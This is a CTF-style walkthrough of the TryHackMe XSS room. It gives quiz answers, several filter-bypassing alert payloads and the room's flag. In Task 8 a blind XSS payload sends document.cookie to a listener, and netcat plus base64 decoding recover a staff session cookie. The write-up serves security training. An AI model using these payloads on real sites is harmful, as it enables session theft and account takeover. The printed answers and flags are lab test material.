 # Cross-site Scripting

{% embed url="https://tryhackme.com/room/xssgi" %}
https://tryhackme.com/room/xssgi
{% endembed %}

## Task 1 Room Brief <a href="#title" id="title"></a>

#### What does XSS stand for?

{% hint style="success" %}
`Cross-Site Scripting`
{% endhint %}

## Task 2 XSS Payloads

#### Which document property could contain the user's session token?

{% hint style="success" %}
`document.cookie`
{% endhint %}

#### Which JavaScript method is often used as a Proof Of Concept?

{% hint style="success" %}
`alert`
{% endhint %}

## Task 3 Reflected XSS

#### Where in an URL is a good place to test for reflected XSS?

{% hint style="success" %}
`Parameters`
{% endhint %}

## Task 4 Stored XSS

#### How are stored XSS payloads usually stored on a website?

{% hint style="success" %}
`database`
{% endhint %}

## Task 5 DOM Based XSS

#### What unsafe JavaScript method is good to look for in source code?

{% hint style="success" %}
`eval()`
{% endhint %}

## Task 6 Blind XSS

#### What tool can you use to test for Blind XSS?

{% hint style="success" %}
`xsshunter`
{% endhint %}

#### What type of XSS is very similar to Blind XSS?

{% hint style="success" %}
`Stored XSS`
{% endhint %}

## Task 7 Perfecting your payload

#### What is the flag you received from level six?

```bash
<script>alert('THM');</script>
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 11-53-57.png>)

```bash
Adam"><script>alert('THM');</script>
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 11-55-53.png>)

```bash
</textarea><script>alert('THM');</script>
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 11-59-14.png>)

```bash
';alert('THM');//
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 12-08-09.png>)

```bash
<sscriptcript>alert('THM');</sscriptcript>
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 12-10-08.png>)

```markup
/images/cat.jpg" onload="alert('THM');
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 12-12-57.png>) ![](<../../.gitbook/assets/Screenshot from 2022-04-02 12-14-25.png>)

{% hint style="success" %}
`THM{XSS_MASTER}`
{% endhint %}

## Task 8 Practical Example (Blind XSS)

#### What is the value of the staff-session cookie?

```bash
</textarea><script>fetch('http://10.10.175.111:9001?cookie=' + btoa(document.cookie));</script>
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 13-08-38.png>)

```bash
nc -nvlp 9001
echo -n 'c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==' | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2022-04-02 13-11-04.png>)

{% hint style="success" %}
`4AB305E55955197693F01D6F8FD2D321`
{% endhint %}
